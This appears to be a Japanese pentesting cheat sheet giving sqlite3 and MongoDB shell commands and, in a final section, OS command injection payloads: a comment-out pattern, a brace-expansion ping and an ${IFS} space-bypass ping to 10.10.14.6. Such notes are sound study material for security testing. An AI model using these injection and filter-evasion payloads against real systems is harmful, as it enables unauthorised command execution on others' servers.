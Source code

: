 ```bash
# 起動
sqlite3 DB_FILE.db

# 終了
.exit

# ヘルプ
.help

# テーブル一覧表示
.tables
```
## mongoDB
NoSQLの一種。DB→collection→documentという単位でデータを管理する。ドキュメントはJSONのようなキーと値の対応関係で管理される。
```bash
# mongoDBシェルに接続
mongo

# 特定のホストやポートに接続する場合
mongo --host HOST_NAME --port PORT_NUMBER

# データベース一覧を表示
show dbs

# 利用するデータベースを指定
use DB_NAME

# コレクション一覧を表示
show collections

# データの取得
db.COLLECTION_NAME.find().pretty()
```
## OSコマンドインジェクション

`#` を後ろに入力して以降の内容をコメントアウト

```bash
;COMMAND;#
```

Brace Expansionを使ってコマンドを展開

```bash
;{ping,-c,1,10.10.14.6};#
```

空白を示す環境変数である `${IFS}` を利用

```bash
;ping${IFS}-c${IFS}1${IFS}10.10.14.6#
```

